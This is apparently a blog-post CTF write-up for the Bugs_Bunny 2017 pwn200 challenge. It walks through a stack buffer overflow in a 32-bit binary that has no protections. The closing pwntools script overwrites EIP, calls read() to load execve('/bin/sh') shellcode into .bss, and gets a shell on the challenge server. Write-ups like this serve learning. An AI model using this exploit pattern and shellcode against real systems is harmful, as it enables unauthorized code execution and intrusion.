 ```yaml
---
title: Bugs_Bunny CTF 2017 -Pwn200
subtitle: Walkthrough the solution
date: 2017-03-05
tags: ["Posts",Bugs_bunny CTF", "Pwn"]

---
```




Hi guys, this writeup is for the _ bugs_bunny CTF 2017 pwn series _.


challenge: **pwn200**


The traditional three steps:  
1. file  
2. strings:  
![1.png](/img/pwn200/1.png)  
3. checksec:  
![2.png](/img/pwn200/2.png)   
---

Information gathered:  
	&nbsp;pwn200 is a 32-bit binary and has no Security measures enabled. Not even NX, which enables Shellcode Injection.
	&nbsp;`LIBC` functions read and puts are used in `ELF`.


Now, we run the binary:

```bash
./pwn200
```

![3.png](/img/pwn200/3.png)


Guys, please dont make all challenges on Buffer Overflows  


`objdump -d pwn200 -M intel`  

![4.png](/img/pwn200/4.png)



There are 3 functions other than main:  

* init: just to create a buffer   
* HEYy: to give the welcome message  
* lOL : the vulnerable function which calls read to get input into the buffer.  


Lets check if we can control eip, if so whats the offset:

![5.png](/img/pwn200/5.png)

![6.png](/img/pwn200/6.png)


Cool, the offset to eip is 28.


Now, lets plan the exploit:
1. We have control over eip.
2. We have [shellcode](https://dhavalkapil.com/blogs/Shellcode-Injection/) and its length is 25. 
3. Maybe, we can use read to get shellcode fron stdin and store it in known memory address.
4. Then just jump to that address.


Nice, that seems very simple. Just to do call `read()` and then a jump.


But, where to write the shellcode. Here comes the sections : `.data, .bss`


The `.bss` section is for uninitialized variables of the binary and i decide to use this part.


The exploit must do this: `read(0,&bss_start,25)`, jump to` &bss_start`


since pwn200 is a `32-bit binary`, the parameters to read can be passed in stack and no need of rop-gadgets.  


Exploit:
1. Fill buffer
2. Overwrite `EIP` with `read()`
3. Next 4 bytes are the Return address, write &bss_start there, this simplifies the jump work as it returns to &bss_start
4. Pass the parameters: `0,&bss_start,25`


Final exploit:  
```python
from pwn import *

#shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"   #vampire
shell="\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"    #585.php

elf=ELF('pwn200')
#r=process('./pwn200')
r=remote("54.67.102.66","5254")
exploit="A"*24+"B"*4                        #offset to ebp is 0x18=24, $ebp=0x42424242
exploit+=p32(elf.symbols['read'])           #call read as : read(0,&shell,25), &shell= start of bss section
exploit+=p32(elf.symbols['__bss_start'])    #return to &shell
exploit+=p32(0)                             #parameter to read
exploit+=p32(elf.symbols['__bss_start'])    #parameter to read
exploit+=p32(25)                            #parameter to read

r.recv()
r.send(exploit)
r.send(shell)
r.interactive()
#r.sendline("cat /home/pwn200/flag")

#Bugs_Bunny{Its_all_about_where_We_Can_Put_Our_Shell:D!}

```
___

![7.png](/img/pwn200/7.png)